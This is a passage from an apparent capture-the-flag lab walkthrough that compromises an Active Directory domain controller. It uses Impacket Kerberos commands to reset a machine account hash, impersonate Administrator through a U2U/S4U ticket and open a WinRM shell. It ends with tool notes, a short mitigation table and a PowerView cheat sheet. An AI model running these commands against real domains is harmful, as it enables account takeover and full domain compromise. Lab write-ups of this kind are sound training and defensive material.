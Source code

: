 ```bash
describeTicket.py iis_webserver$.ccache | grep 'Ticket Session Key'
# e.g. f524a1f7008d102af747299891d69946

changepasswd.py -newhashes :f524a1f7008d102af747299891d69946 \
  'hercules.htb'/'iis_webserver$':'Password123!'@'dc.hercules.htb' -k

getST.py -u2u -impersonate Administrator \
  -spn cifs/dc.hercules.htb -k -no-pass 'hercules.htb'/'iis_webserver$'
```

---

### Step 7 · Full DC Access

```bash
export KRB5CCNAME=$(pwd)/Administrator@cifs_dc.hercules.htb@HERCULES.HTB.ccache
python3 evil_winrmexec.py -ssl -port 5986 -k -no-pass dc.hercules.htb
```

🟩 **Result:** Command prompt as `HERCULES\Administrator` on DC.

---

## 🧩 5. Combining PowerView with Other Tools

- **Impacket** → TGT/ST requests, S4U chains, Kerberos manipulation  
- **Certipy** → Certificate authentication and abuse of mis‑configured templates  
- **pypykatz** → Quick NT‑hash extraction for password operations  
- **evil‑winrmexec** → Interactive encrypted WinRM shell  

These integrate seamlessly into a cohesive red‑team flow.

---

## 🛡️ 6. Defensive Insights

If you’re a blue‑team reader:

| Mitigation | Purpose |
|-------------|----------|
| Restrict certificate template enrollment | Prevent “on behalf of” abuse |
| Audit ACL modifications | Identify unexpected `FullControl` inheritances |
| Review computer account password resets | Detect machine compromise |
| Disable legacy Pre‑Auth = disabled accounts | Stops easy AS‑REP roasting and S4U attacks |

---

## 🧭 7. Quick Reference (Cheat Sheet)

| Action | PowerView cmdlet |
|---------|------------------|
| Enumerate domains | `Get-NetDomain` |
| List domain controllers | `Get-NetDomainController` |
| Find user sessions | `Invoke-UserHunter` |
| Enumerate ACLs | `Get-DomainObjectAcl` |
| Grant rights | `Add-DomainObjectAcl` |
| Set attributes | `Set-DomainObject` |
| Reset password | `Set-DomainUserPassword` |